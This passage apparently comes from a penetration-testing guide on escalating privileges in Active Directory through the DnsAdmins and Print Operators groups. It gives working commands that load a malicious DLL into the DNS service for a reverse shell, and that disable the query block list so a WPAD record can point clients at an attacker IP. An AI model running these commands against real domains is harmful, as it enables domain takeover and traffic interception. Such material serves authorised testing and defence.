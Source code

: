 If you are not a member of the ```DnsAdmins``` group you may get an error when trying to execute your malicious dll.

```posh
dnscmd.exe /config /serverlevelplugindll C:\Users\Public\Downloads\YOUR_MALICIOUS_FILE.dll
```

> You can check if you are a member of the ```DnsAdmins``` group with the command : ```Get-ADGroupMember -Identity DnsAdmins```.
{: .prompt-tip }

> We must specify the full path to our malicious DLL or the attack will not work properly.
{: .prompt-warning }

To receive our reverse shell or to add our user to a certain group we need to stop the DNS service and start it back :

```posh
sc stop dns
```
```posh
sc start dns
```

You can also use the ```mimilib.dll``` (by the creator of Mimikatz) explained in [this blog](http://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html) to abuse the ```dns admin group``` privileges.

### Creating a WPAD Record

Clients can utilize the Web Proxy Auto-Discovery (WPAD) Protocol to find the URL of a configuration file using DHCP and/or DNS discovery techniques. The configuration file can be invoked to find the proxy for a given URL after detection and download are finished.

For this attack to work, we first need to disable the Global Query Block List :

```posh
PS > Set-DnsServerGlobalQueryBlockList -Enable $false -ComputerName dc01.DOMAIN_NAME.local
```

We can now add our attacker machine to the WPAD Records :

```posh
PS > Add-DnsServerResourceRecordA -Name wpad -ZoneName DOMAIN.local -ComputerName dc01.DOMAIN.local -IPv4Address OUR_ATTACKER_IP
```

### Print Operators

Members of this group can manage, create, share, and delete printers that are connected to domain controllers in the domain. They can also manage Active Directory printer objects in the domain. Members of this group can locally sign in to and shut down domain controllers in the domain. This grant their user the ```SeLoadDriverPrivilege``` privilege.

First we can use the [EnableSeLoadDriverPrivilege](https://raw.githubusercontent.com/3gstudent/Homework-of-C-Language/master/EnableSeLoadDriverPrivilege.cpp) tool to enable the privilege and load the driver. You can add the following includes at the begining of the file :

```c
#include <windows.h>
#include <assert.h>
#include <winternl.h>
#include <sddl.h>
#include <stdio.h>
#include "tchar.h"
```
